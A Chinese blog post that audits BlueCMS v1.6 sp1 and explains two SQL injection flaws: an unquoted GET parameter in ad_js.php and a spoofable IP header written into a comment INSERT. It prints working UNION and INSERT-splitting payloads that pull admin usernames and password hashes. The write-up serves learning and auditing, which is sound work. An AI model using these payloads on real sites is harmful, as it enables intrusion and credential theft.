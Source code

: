 ```yaml
---
title: 代码审计之SQL注入：BlueCMSv1.6 sp1
date: 2017-03-14 19:39:02
tags: [代码审计,SQL注入]
categories: Web安全
---
```

代码审计学习

本文首发于：[代码审计之SQL注入：BlueCMSv1.6 sp1](https://chybeta.github.io/2017/03/14/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%E4%B9%8BSQL%E6%B3%A8%E5%85%A5%EF%BC%9ABlueCMSv1-6-sp1/)
<!-- more -->

# 工具及环境
+ bluecms v2.1 sp1
链接：http://pan.baidu.com/s/1dFKLanR 密码：8v1c
+ seay审计系统
链接：http://pan.baidu.com/s/1dENS4KT 密码：rszt
+ 环境
PHP: 5.4.45
MYSQL: 5.5.53


# 注入一
## 审计
用seay审计系统审计一下,定位到/ad_js.php。
![](http://ojp0pjljj.bkt.clouddn.com/bluecms1.jpg)

该条语句为
```php
$ad = $db->getone("SELECT * FROM ".table('ad')." WHERE ad_id =".$ad_id);
```

getone()是自定义的函数，用来查询数据库，代码如下：
```php
function getone($sql, $type=MYSQL_ASSOC){
  $query = $this->query($sql,$this->linkid);
  $row = mysql_fetch_array($query, $type);
  return $row;
}
```
回到ad_js.php
```php
"SELECT * FROM ".table('ad')." WHERE ad_id =".$ad_id
```
可见这里的变量 $ad_id 没有单引号保护。接下来看看这个变量的来源。
![](http://ojp0pjljj.bkt.clouddn.com/bluecms2.jpg)

```php
$ad_id = !empty($_GET['ad_id']) ? trim($_GET['ad_id']) : '';
```
若通过GET获得ad_id则去除它两边的空白字符，否则为空。在获得了ad_id值后，接下来就直接将$ad_id送入了查询语句，没有做任何过滤，因此这里存在注入。

## 利用
+ 先查询列数

    /ad_js.php?ad_id=1 +UNION +SELECT+1,2,3,4,5,6
    报错

![](http://ojp0pjljj.bkt.clouddn.com/bluecms3.jpg)

    ad_js.php?ad_id=1 +UNION +SELECT+1,2,3,4,5,6,7,8
    报错

![](http://ojp0pjljj.bkt.clouddn.com/bluecms4.jpg)

    ad_js.php?ad_id=1+UNION+SELECT+1,2,3,4,5,6,7
    无报错，且查看源代码发现数字7有回显。
![](http://ojp0pjljj.bkt.clouddn.com/bluecms6.jpg)

+ 提取数据
利用元数据表爆出表名
```
    ad_js.php?ad_id=1+UNION+SELECT+1,2,3,4,5,6,GROUP_CONCAT(table_name) from information_schema.tables where table_schema=database()
```
![](http://ojp0pjljj.bkt.clouddn.com/bluecms9.jpg)

+ 爆出字段

    ad_js.php?ad_id=1 +UNION +SELECT+1,2,3,4,5,6,GROUP_CONCAT(column_name) from information_schema.columns where table_name=0x626c75655f61646d696e
![](http://ojp0pjljj.bkt.clouddn.com/bluecms10.jpg)
+ 获取用户名密码

    ad_js.php?ad_id=1 +UNION +SELECT+1,2,3,4,5,6,GROUP_CONCAT(admin_name,0x3a,pwd) FROM blue_admin  
![](http://ojp0pjljj.bkt.clouddn.com/bluecms10.jpg)

# 注入二
## 审计
函数定位：
```php
function getip()
{
	if (getenv('HTTP_CLIENT_IP'))
	{
		$ip = getenv('HTTP_CLIENT_IP');
	}
	elseif (getenv('HTTP_X_FORWARDED_FOR'))
	{ //????????????????????????????ip ???
		$ip = getenv('HTTP_X_FORWARDED_FOR');
	}
	elseif (getenv('HTTP_X_FORWARDED'))
	{
		$ip = getenv('HTTP_X_FORWARDED');
	}
	elseif (getenv('HTTP_FORWARDED_FOR'))
	{
		$ip = getenv('HTTP_FORWARDED_FOR');
	}
	elseif (getenv('HTTP_FORWARDED'))
	{
		$ip = getenv('HTTP_FORWARDED');
	}
	else
	{
		$ip = $_SERVER['REMOTE_ADDR'];
	}
	return $ip;
}
```
直接获取了ip，并没有验证IP格式，因此我们可以伪造ip。查看一下有哪些位置调用了 getip() ，
![](http://ojp0pjljj.bkt.clouddn.com/bluecms13.jpg)

## comment.php页面
其中有如下代码

    $sql = "INSERT INTO ".table('comment')." (com_id, post_id, user_id, type, mood, content, pub_date, ip, is_check) VALUES ('', '$id', '$user_id', '$type', '$mood', '$content', '$timestamp', '".getip()."', '$is_check')";
    $db->query($sql);

可以看到，这里执行了INSERT语句，且调用了getip()，这里存在注入。

## 利用
这是目前的留言板：
![](http://ojp0pjljj.bkt.clouddn.com/bluecms17.jpg)

在burp截包后，post参数如下：
![](http://ojp0pjljj.bkt.clouddn.com/bluecms16.jpg)
所以

    user_id=2
    id=6 即 post_id=6 对应发表留言的文章id
    type=1
    mood=6 （这个无关紧要）

为了能让把管理员账号和密码回显出来，我们不能直接在getip()的位置上直接去查询。在前面的sql语句中，content变量是会回显到页面上的，这里利用这个位置去构造payload。

payload如下：

    1','1'),('','6','2','1','6',(select concat(admin_name,':',pwd) from blue_admin),'1','1

payload分析：1','1')是为了完成第一次插入，之后的（）是为了完成第二次插入，前面的 '','6','2','1','6' 是与第一个插入语句的参数相对应。接下来，我们把查询到的账号密码放在了第六个参数即content位置，这样能实现回显。而最后的 '1','1  是要满足列数相等否则会出错，同时要注意闭合原本语句中的单引号，其中第一个 1 对应sql语句中的$timestamp，表示发表时间，这个无关紧要。

所以这样插入后完整的sql语句是：

    $sql = INSERT INTO ".table('comment')." (com_id, post_id, user_id, type, mood, content, pub_date, ip, is_check)
      VALUES ('', '$id', '$user_id', '$type', '$mood', '$content', '$timestamp', '1','1'),('','6','2','1','6',(select concat(admin_name,':',pwd) from blue_admin),'1','1', '$is_check')";

![](http://ojp0pjljj.bkt.clouddn.com/bluecms18.jpg)
Forward后 注入成功。
![](http://ojp0pjljj.bkt.clouddn.com/bluecms20.jpg)

